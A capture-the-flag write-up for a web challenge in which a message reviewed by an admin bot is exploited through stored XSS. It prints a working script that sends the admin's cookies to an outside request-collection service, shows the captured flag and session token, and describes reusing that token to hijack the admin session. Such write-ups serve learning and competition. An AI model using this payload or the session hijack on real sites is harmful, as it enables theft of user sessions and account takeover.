 Government Agriculture Network (**web**)


    Well it seems someone can't keep their work life and their home 
    life separate. You vaguely recall on your home planet, posters put 
    up everywhere that said "Loose Zips sink large commercial 
    properties with a responsibility to the shareholders." You wonder 
    if there is a similar concept here.

    Using the credentials to access this so-called Agricultural 
    network, you realize that SarahH was just hired as a vendor or 
    contract worker and given access that was equivalent. You can only 
    assume that Vendor/Contractor is the highest possible rank bestowed 
    upon only the most revered and well regarded individuals of the 
    land and expect information and access to flow like the Xenovian 
    acid streams you used to bathe in as a child.

    The portal picture displays that small very attractive individual 
    whom you instantly form a bond with, despite not knowing. You must 
    meet this entity! Converse and convince them you're meant to be! 
    After a brief amount of time the picture shifts into a biped 
    presumably ingesting this creature! HOW DARE THEY. You have to save 
    them, you have to stop this from happening. Get more information 
    about this Gubberment thing and stop this atrocity.

    You need to get in closer to save them - you beat on the window, 
    but you need access to the cauliflower's host to rescue it.


URL is given: https://govagriculture.web.ctfcompetition.com/

Opening it in browser shows us a simple web form with text field and 
`Submit` button, quick glance to web page source HTML tells us that 
there are nothing special.
Trying to post something leads to the message:

    Your post was submitted for review. Administator will take a look shortly. 

Well, if *administrator* will open and look on every owr post, then it 
is Cross-Site-Scripting (XSS) problem for sure, and all what we need is 
to send some specially crafted message that will do some useful thing 
being *looked* (*opened* in web browser) by Administrator. Basically it 
is a text that contains javascript. This javascript will be executed by 
Administrator's browser and hence have access to some interesting data 
like cookies. For example, we can enforce Administrator's browser to 
try to load image from other site and embed in URL value of 
`document.cookie`. There will be no image at that URL, but it will too 
late, the request with data already will be captured.
But how can we see this request? One way is to open listening tcp 
socket (`nc -l 12345`) and crafting URL to fake image like 
`"http://<our-external-ip>:12345/img.png?cookie="+document.cookie` and 
see the request in terminal. But what if we have no external IP, or 
have connection via uncontrolled strict firewall or just do not want to 
open our port for incoming connections?
There is good web service for this situation that I saw on other's 
write-ups: [PostBin](https://postb.in). It is free and extremely easy 
to use. Register some "bin" and look for requests to it.

Ok, back to CTF, let's try simpliest thing, probably copy-pasted from 
Wikipedia or first page Googled for "XSS examples":

    <script>
    var img=new Image();
    img.src="https://postb.in/1561479835927-8693528019357?cookie="+document.cookie;
    </script>

Yes, here it is:

    Bin '1561479835927-8693528019357'

    [Req '1561480065527-6931422839406' : 104.155.55.51]
    GET /1561479835927-8693528019357 2019-06-25T16:27:45.527Z
    Headers

        x-real-ip: 104.155.55.51
        host: postb.in
        connection: close
        pragma: no-cache
        cache-control: no-cache
        sec-fetch-mode: no-cors
        user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
        accept: image/webp,image/apng,image/*,*/*;q=0.8
        sec-fetch-site: cross-site
        referer: https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3E%0D%0Avar+img%3Dnew+Image%28%29%3B%0D%0Aimg.src%3D%22https%3A%2F%2Fpostb.in%2F1561479835927-8693528019357%3Fcookie%3D%22%2Bdocument.cookie%3B%0D%0A%3C%2Fscript%3E
        accept-encoding: gzip, deflate, br

    Query

        cookie: flag=CTF{8aaa2f34b392b415601804c2f5f0f24e}; session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV

    Body
    
    
And the flag is

**CTF{8aaa2f34b392b415601804c2f5f0f24e}**

What if we take Admin's session key? It can be done in different ways 
depending on your browser. For me the simpliest thing was to open 
Firefox's WebConsole and just write to it:

    document.cookie="session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV"

Then click to the link "Admin".
Nothing interesting, just the same flag in plain text. But at least 
we tried...
